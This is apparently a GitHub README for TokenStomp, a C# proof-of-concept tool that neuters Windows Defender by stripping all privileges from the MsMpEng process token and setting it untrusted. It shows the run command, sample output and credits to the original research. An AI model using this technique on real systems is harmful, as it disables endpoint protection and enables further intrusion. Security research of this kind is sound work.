

# TokenStomp

C# POC for the token privilege removal flaw reported by [@GabrielLandau](https://twitter.com/GabrielLandau) at Elastic.


```
C:\Users\Mrtn>TokenStomp.exe MsMpEng

  ________           ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄▄   ▄ ▄▄▄▄▄▄▄ ▄▄    ▄ ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄▄▄▄▄▄ ▄▄   ▄▄ ▄▄▄▄▄▄▄
 (____ / <|         █       █       █   █ █ █       █  █  █ █       █       █       █  █▄█  █       █
 (___ /  <|         █▄     ▄█   ▄   █   █▄█ █    ▄▄▄█   █▄█ █  ▄▄▄▄▄█▄     ▄█   ▄   █   █   █    ▄  █
 (__ /   <`-------.   █   █ █  █ █  █      ▄█   █▄▄▄█       █ █▄▄▄▄▄  █   █ █  █ █  █       █   █▄█ █
 /  `.    ^^^^^ |  \  █   █ █  █▄█  █     █▄█    ▄▄▄█  ▄    █▄▄▄▄▄  █ █   █ █  █▄█  █  ▄ ▄  █    ▄▄▄█
|     \---------'   | █   █ █       █    ▄  █   █▄▄▄█ █ █   █▄▄▄▄▄█ █ █   █ █       █ ██▄██ █   █
|______|___________/] █▄▄▄█ █▄▄▄▄▄▄▄█▄▄▄█ █▄█▄▄▄▄▄▄▄█▄█  █▄▄█▄▄▄▄▄▄▄█ █▄▄▄█ █▄▄▄▄▄▄▄█▄█   █▄█▄▄▄█
[▄▄▄▄▄|`-.▄▄▄▄▄▄▄▄▄]               Implemented by @Mrtn9 - Technique by @GabrielLandau

[*] Found MsMpEng with pid 4988
[*] Got handle to process
[*] Successfully opened process token
[*] Got token information
[*] Found 14 privileges in token
[*] Successfully removed 14 of 14 privileges from token
[*] Successfully set token untrusted

C:\Users\Mrtn>
```



# Credits
- This wonderful blogpost by [Gabriel Landau](https://twitter.com/GabrielLandau) over at Elastic: [Sandboxing Antimalware Products for Fun and Profit](https://elastic.github.io/security-research/whitepapers/2022/02/02.sandboxing-antimalware-products-for-fun-and-profit/article/)
- This C++ implementation by [Sudheer Varma](https://twitter.com/0xpwnisher) (which I wish I saw before writing my implementation...): [KillDefender](https://github.com/pwn1sher/KillDefender/)
